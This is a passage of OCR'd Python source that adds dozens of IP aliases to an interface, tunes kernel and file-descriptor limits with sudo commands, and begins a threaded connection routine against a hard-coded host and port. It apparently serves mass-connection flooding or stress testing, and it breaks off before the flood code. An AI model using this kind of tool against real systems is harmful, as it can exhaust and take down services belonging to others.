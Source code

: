 ```
    psutil=__import__("psutil")
    if type(interface) != str:
        addrs = psutil.net_if_addrs()
        _interface = "wlan0" if "wlan0" in addrs else "eth0" if "eth0" in addrs else exec('print("[err] cannot set the interface automaticly please use -I <interface>");__import__("sys").exit(0)')
    else:
        _interface = interface
    print(f"[INIT] interface:{_interface} selected")
    interfaces = psutil.net_if_addrs()
    base_addr,netmask = "",""
    for address in interfaces[_interface]:
        if address.family == __import__("socket").AF_INET:
            (base_addr, netmask)=(address.address, address.netmask)
    prefix = str(__import__("ipaddress").ip_network(f"{base_addr}/{netmask}", strict=False)).split("/")[-1]
    subprocess = __import__("subprocess")
    nx_ip = f"{base_addr.split('.')[0]}.{base_addr.split('.')[1]}.{base_addr.split('.')[2]}.REPME"
    cmd_base = f"ip addr add {nx_ip}/{prefix} dev {_interface}"
    start_base = int(base_addr.split(".")[-1])-1
    its_done=False
    IPN = start_base
    lips = []
    while not its_done:
        try:
            r=subprocess.run(cmd_base.replace("REPME", str(IPN)), shell=True, check=False, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
            if r.returncode == 0:
                COUNT=COUNT-1
                IPN=IPN+1
                lips.append(nx_ip.replace("REPME", str(IPN)))
            else:
                IPN=IPN+1
            if COUNT == 0: its_done = True
        except subprocess.CalledProcessError as e:
            print(e)
            __import__("sys").exit(-1)
    return lips



def _init(I, C):
    print("[INIT] , adjusting fd limit to 1026000")
    __import__("os").system("ulimit -n 1026000")
    run_command = __import__("os").system
    print("[INIT] preapring kernel params to support ~0xffff cnx per ip")
    run_command("sudo sysctl -w net.ipv4.ip_local_port_range='1024 65535'")
    run_command("sudo sysctl -w net.ipv4.tcp_tw_reuse=1")
    run_command("sudo sysctl -w net.ipv4.tcp_fin_timeout=30")
    resource = __import__("resource")
    soft, hard = resource.getrlimit(resource.RLIMIT_NOFILE)
    resource.setrlimit(resource.RLIMIT_NOFILE, (1026000, hard))
    print("[INIT] registring more ips for used interface [default:20]")
    ips = setup_interface(I, C)
    #print(f"[INFO] ips:{ips}")
    print("[INFO] initialisation done , starting the execution of all threads")
    return ips

new_cnx = __import__("threading").Thread
(H,P) = ("192.168.11.106", 4000)

def openFDS(IP, with_data=0, R=(0xFFFF-2000), TS=0):
    if R == 0: R=(0xFFFF-2000)
    counter = 0
```